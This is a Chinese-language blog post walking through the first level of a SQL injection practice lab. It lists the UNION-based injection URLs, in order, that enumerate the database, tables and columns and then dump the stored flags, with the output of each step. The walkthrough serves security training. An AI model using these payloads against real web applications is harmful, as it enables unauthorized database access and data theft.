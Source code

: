```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入
categories: [安全]
description: sql注入练习 报错注入
keywords: sql注入
---
```


# 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入

靶场地址:  http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1

> **注意**: 错误注入 不一定是会返回错误信息。 也指不正常显示结果， 例如此题的查询为空。

## 0x01 准备工具


辅助工具 `google extension` : hackbar

1. 帮助快速构造语句
2. 显示原始字符，免去 urlcode 烦恼


## 0x02 开始

```sql
-- 1. 查询数据库名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2, database()
-- error


-- 2. 查询所以表名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
-- error_flag, user


-- 3. 查询当前库所有列名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='error_flag'
-- id, flag

-- 4.0 查询 flag 数量
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,count(*) from error_flag
-- 4


-- 4.1 查询 flag
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,id,flag from error_flag
-- zKaQ-Nf

-- 4.2 查询所有flag
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,group_concat(flag) from error_flag
-- zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K

```
